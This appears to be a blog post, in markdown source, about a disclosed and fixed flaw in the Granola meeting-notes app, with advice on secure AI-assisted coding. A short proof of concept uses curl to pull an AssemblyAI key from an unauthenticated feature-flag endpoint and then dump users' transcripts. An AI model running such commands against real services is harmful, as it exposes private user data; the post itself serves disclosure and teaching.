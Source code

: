 ```yaml
---
author: Jonathan Haas
pubDate: 2025-05-12
title: "When Vibe Coding Goes Wrong: Security Lessons from Granola"
description: 
  Vibe coding shifts software creation from careful engineering to casual AI generation. When startups skip security fundamentals, the consequences aren't just bugs—they're breaches. Here's what the Granola incident teaches us.
featured: false
draft: false
tags:
  - cybersecurity
  - vibe-coding
  - AI-development
  - product-security
  - electron-apps
image:
  url: "https://images.pexels.com/photos/669618/pexels-photo-669618.jpeg?auto=compress&cs=tinysrgb&w=1260&h=750&dpr=2"
  alt: "Crumbling wall symbolizing fragile security foundations"
---
```


Vibe coding is having a moment.  
And honestly? It's kind of awesome.

Type a few sentences into an LLM.  
Get a working app back.  
Ship it. Repeat.

Except when you skip the "understand your code" part...  
You don’t just get quirky bugs.  
You get vulnerabilities.

Granola—a Mac app built with Electron—just gave us a painfully real example.

---

## What Went Wrong at Granola

Researchers found that you could:

1. **Unpack** the app easily (`asar extract` on the `.asar` archive).
2. **Read** through the JavaScript.
3. **Find** API endpoints embedded directly in the client.
4. **Hit** one of those endpoints (`get-feature-flags`) without authentication.
5. **Extract** an AssemblyAI API key from the feature flags.
6. **Use** that key to pull **private transcript data** from AssemblyAI.

### Proof of Concept Looked Like This:

```bash
# Step 1: Leak the API key
curl -X POST "https://api.granola.ai/v1/get-feature-flags" \
 -H "X-Client-Version: 5.226.0" \
 -H "Content-Type: application/json" | jq '.[] | select(.feature=="assembly_key")'

# Step 2: Use the key to dump transcripts
curl https://api.assemblyai.com/v2/transcript \
    -H "Authorization: $apiKey" | jq '.transcripts.[].id' > transcript_ids
cat transcript_ids | head -n 1 | tr -d '"' | while read id; do curl https://api.assemblyai.com/v2/transcript/$id -H "Authorization: $apiKey"; done
```

### What the Transcripts Had

- Text transcripts of audio recordings.
- Some metadata.
- (Fortunately) **no direct access to raw audio files**.

Still, leaking user conversations—even just as text—is a security incident.  
Full stop.

---

## How This Smells Like Vibe Coding

Nobody's saying definitively that Granola was "vibecoded."  
But the red flags are textbook:

- Sensitive keys bundled into the client.
- No authentication checks on critical endpoints.
- Client/server boundary confusion.
- Basic security 101 mistakes.

It has the hallmark of someone saying to the AI:

> "Write a cool feature flag system"  

...and never stepping back to ask:

> "Wait, should this even be exposed to the client?"

That’s **classic vibe coding**:  
Prompt, ship, _hope it works_.

---

## Why Vibe Coding Without Guardrails Is Dangerous

Vibe coding feels magical.  
But magic tricks don’t build safe systems.

Without critical layers like:

- **Threat modeling** ("What happens if someone inspects the app?")
- **Secure design** ("Who should be allowed to call this endpoint?")
- **API key management** ("Should keys live in the client?")
- **Principle of least privilege** ("Does this key even need full access?")
  
You’re not just moving fast.  
You're skating blind across a minefield.

### The Hidden Costs of Vibe-Coded Apps

- **Trust Erosion**: Users delete your app—and your brand reputation goes with it.
- **Incident Response**: You scramble to patch, disclose, and recover.
- **Regulatory Exposure**: Privacy laws don’t care if your app was "vibey."
- **Compounding Debt**: Quick fixes become brittle patches on a broken foundation.

---

## The Solution Isn't "No Vibe Coding"

Let’s be clear:  
**Vibe coding isn’t the enemy.**

It’s an incredible productivity unlock.  
It democratizes building.

But if you’re building with AI-generated code, **you have new responsibilities**:

### 1. Audit Everything

Treat your AI like an enthusiastic intern.  
Helpful? Sometimes.  
Trustworthy without review? Never.

### 2. Train for Threat Modeling

You don’t have to be a full-time security engineer.  
But you do need basic instincts:

- Who gets to call this API?
- What’s the worst thing that could happen here?
- Could this app be unpacked, inspected, reversed?

If you can't answer those questions, you need a security review before launch.

### 3. Lock Down Secrets

Never, ever, ever ship API keys, secrets, or privileged tokens in your client apps.  
Use proper backend proxying.  
Scope keys narrowly.  
Rotate them regularly.

No exceptions.

### 4. Build In Authentication and Authorization Early

Even "just a little" security scaffolding saves you from giant messes later.  
Set the bar early:

- Every sensitive API must require auth.
- Every key must be scoped and auditable.
- Every endpoint must assume bad actors are trying to hit it.

---

## Final Thought: It's Only "Vibes" Until It's Real Users

Weekend projects?  
Fine. Vibe away. No judgment.

Production apps that handle user data?

**Vibe coding stops. Engineering begins.**

Ship fast.  
But ship safe.

Granola’s mistake is a flashing neon sign:  
🚨 _The vibes are not enough._ 🚨

---

## Disclosure Timeline (Granola)

- **Feb 18, 2025**: Disclosure contact requested.
- **Feb 26, 2025**: Second request.
- **Mar 10, 2025**: Contact established.
- **Mar 11, 2025**: Issue disclosed to Granola; response received confirming remediation.

✅ API key removed.  
✅ Endpoint patched.

But the scar tissue remains—for the users, and for the team.

Let's learn the lesson the easy way.
